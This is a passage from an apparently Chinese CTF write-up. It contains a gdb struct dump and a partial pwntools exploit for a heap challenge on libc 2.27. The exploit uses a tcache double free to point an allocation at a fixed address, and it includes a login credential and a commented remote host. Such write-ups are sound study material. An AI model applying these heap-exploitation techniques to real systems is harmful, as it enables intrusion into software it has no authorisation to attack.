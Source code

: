 ```
    _mode = 0xffffffff, 
    _unused2 = '\000' <repeats 19 times>
  }, 
  vtable = 0x7ffff7bad2a0 <_IO_file_jumps>
}

```

环境：ubuntu18.04  libc2.27
完整exp：
```
from pwn import *

context(os='linux',arch='amd64',aslr = 'False',log_level='debug')


#p = remote("90b826377a05d5e9508314e76f2f1e4e.kr-lab.com","40001")
p = process("./pwn")
elf = ELF('./pwn')
libc = elf.libc

def create(size,content,name):
    p.sendlineafter(">","1")
    p.sendafter("book name:",name)
    p.sendlineafter("description size:",str(size))
    p.sendafter("description:",content)

def create_null_puts(size,content,name):
    p.sendlineafter(">","1")
    p.send(name)
    sleep(0.01)
    p.sendline(str(size))
    sleep(0.01)
    p.send(content)
    sleep(0.01)
    
def free(idx):
    p.sendlineafter(">","2")
    p.sendlineafter("index:",str(idx))

def free_null_puts(idx):
    p.sendlineafter(">","2")
    p.sendline(str(idx))
    
def edit(idx,content):
    p.sendlineafter(">","3")
    p.sendlineafter("index:",str(idx))
    p.sendafter("create description:",content)

'''
0x602060
b *0x00401207
b *0x0040129b

'''
p.sendlineafter("username:","admin")
p.sendlineafter("password:","frame")

create(0x80,'aaaa\n','aaaa\n')#0
free(0)
free(0)
pause()
create(0x80,p64(0x602020)*2 + "\n","aaaa\n")#1
create(0x80,"\n","aaaa\n")#2
```